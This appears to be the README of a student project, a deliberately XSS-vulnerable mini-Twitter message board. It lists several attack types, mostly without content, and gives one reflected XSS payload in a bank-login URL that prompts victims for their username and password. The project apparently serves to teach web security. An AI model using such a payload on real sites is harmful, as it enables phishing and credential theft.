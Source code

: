 # XSS-Vunerable-Board
A vunerable Messaging board like a mini-Twitter application.
By Hitesh, Pranati and Saumya.

Attack Scripts:
1. Reflected Attack:
2. Online SBI @Posts:
3. DOM Attack:
4. Phising Attack:
5. Stored Attack script:

http://freebankonline.com/banklogin.asp?err=<script>username=prompt('Please enter your username',' '); password=prompt('Please enter your password',' '); alert("username="+username+" and password="+password);</script>
